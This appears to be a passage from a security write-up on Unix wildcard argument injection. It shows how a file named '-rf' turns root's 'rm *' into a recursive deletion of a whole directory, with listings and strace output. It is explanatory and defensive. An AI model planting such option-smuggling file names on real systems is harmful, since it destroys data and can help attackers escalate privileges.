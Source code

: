 
## Wildcard Wilderness

Simple trick behind this technique is that when using shell wildcards,  especially asterisk (*), Unix shell will interpret files beginning with hyphen
(-) character as command line arguments to executed command/program.

That leaves space for variation of classic channeling attack. Channeling problem will arise when different kind of information channels 
are combined into single channel. Practical case in form of particularly this technique  is combining arguments and filenames, as different “channels” into single, because of using shell wildcards.

Let’s check one very basic wildcard argument injection example.

```shell
[root@defensecode public]$ ls -al
total 20
drwxrwxr-x.  5 leon   leon   4096 Oct 28 17:04 .
drwx———. 22 leon   leon   4096 Oct 28 16:15 ..
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR1
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR2
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR3
-rw-rw-r———.  1 leon   leon      0 Oct 28 17:03 file1.txt
-rw-rw-r———.  1 leon   leon      0 Oct 28 17:03 file2.txt
-rw-rw-r———.  1 leon   leon      0 Oct 28 17:03 file3.txt
-rw-rw-r———.  1 nobody nobody    0 Oct 28 16:38 -rf
```

We have directory with few subdirectories and few files in it. There is also file with `’-rf’` filename ther owned by the user `’nobody’`.
Now, let’s run ‘rm *’ command, and check directory content again.

```shell
[root@defensecode public]# rm *
[root@defensecode public]# ls -al
total 8
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:05 .
drwx———. 22 leon   leon   4096 Oct 28 16:15 ..
-rw-rw-r———.  1 nobody nobody    0 Oct 28 16:38 -rf
```

Directory is totally empty, except for ‘-rf’ file in it.
All files and directories were recursively deleted, and it’s pretty obvious what happened… When we started ‘rm’ command with asterisk argument, all filenames in current directory were passed as arguments to ‘rm’ on command line, exactly same as following line:

```shell
[user@defensecode WILD]$ rm DIR1 DIR2 DIR3 file1.txt file2.txt file3.txt -rf
```

Since there is ‘-rf’ filename in current directory, ‘rm’ got -rf option as the last argument, and all files in current directory were recursively deleted.
We can also check that with strace:

```shell
[leon@defensecode WILD]$ strace rm *
execve(“/bin/rm”, [“rm”, “DIR1”, “DIR2”, “DIR3”, “file1.txt”, “file2.txt”, 
“file3.txt”, “-rf”], [/* 25 vars */]) = 0
              ^- HERE
```
